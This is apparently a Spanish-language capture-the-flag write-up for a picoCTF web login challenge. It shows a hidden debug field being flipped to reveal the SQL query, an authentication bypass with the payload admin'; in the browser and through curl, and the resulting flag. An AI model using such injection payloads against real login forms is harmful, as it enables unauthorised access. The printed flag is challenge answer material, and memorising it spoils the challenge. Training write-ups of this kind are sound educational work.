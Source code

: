 # Objetivo

Hay un sitio web en https://jupiter.challenges.picoctf.org/problem/53751/ (enlace). Alguien ha omitido el inicio de sesión antes y ahora se está fortaleciendo. ¡Intenta ver si aún puedes iniciar sesión! o http://jupiter.challenges.picoctf.org:53751
1. La contraseña se está filtrando.

## Solución

```
Causaremos un error de inyeccion, haciendo uso de unas comillas en laparte del usuario (").
Inspeccionamos el cuadro y vemos que el apartado donde ingresamos los datos de usuario y password, son identificados como username y password.
Tambien observamos que en el cuadro de Login, se pueden cambiar varios parametros, y ahi observamos que salen varios parametros que estaban ocultos con anterioridad:

<input type="hidden" name="debug" value="0">

--Este apartado lo cambiamos a 1 y nos aparecen los datos que se envian desde los cuadros de texto y ademas la consulta que se realiza en la abse de datos, la cual es:
SQL query: SELECT * FROM users WHERE name='usermane' AND password='password'
Entonces jugamos con esta consulta y con el usuario enviamos 
username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}
```

Si deseamos hacerlo desde consola, podemos hacer lo siguiente:
```
┌──(jesus㉿KaliJesus)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=admin&debug=1"
<pre>username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>                                                                                     
┌──(jesus㉿KaliJesus)-[~]
└─$ 
```
## Notas adicionales

- Usamos inyección SQL, tratando de burlar la consulta que hace la pagina a la base de datos.
- Esto lo pudimos realizar tanto en la pagina al momento de inspeccionar como en la terminal de nuestra maquina.

Usamos las siguientes instrucciones:
username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'

## Referencias

https://github.com/payloadbox/sql-injection-payload-list